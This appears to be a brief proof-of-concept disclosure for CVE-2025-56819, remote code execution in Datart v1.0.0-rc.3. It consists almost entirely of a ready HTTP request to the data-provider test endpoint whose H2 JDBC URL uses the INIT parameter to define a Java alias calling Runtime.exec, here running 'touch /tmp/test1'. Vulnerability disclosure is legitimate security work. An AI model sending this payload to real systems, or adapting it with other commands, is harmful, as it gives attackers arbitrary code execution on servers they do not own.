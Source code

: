 # CVE-2025-56819
An issue in Datart v.1.0.0-rc.3 allows a remote attacker to execute  arbitrary code via the INIT connection parameter.

```
 POST /api/v1/data-provider/test HTTP/1.1
 Host: test.com:8080
 Content-Type: application/json
 Content-Length: 520

 {
   "name": "jdbc-data-provider",
   "type": "JDBC",
   "properties": {
     "dbType": "H2",
     "url": "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS 'void cmd_exec(String cmd) throws java.lang.Exception {Runtime.getRuntime().exec(cmd)\\;}'\\;CALL EXEC ('touch /tmp/test1')\\;",
     "user": null,
     "password": "",
     "driverClass": "org.h2.Driver",
     "serverAggregate": false,
     "enableSpecialSQL": false,
     "enableSyncSchemas": true,
     "syncInterval": "60",
     "properties": {}
   }
 }
```
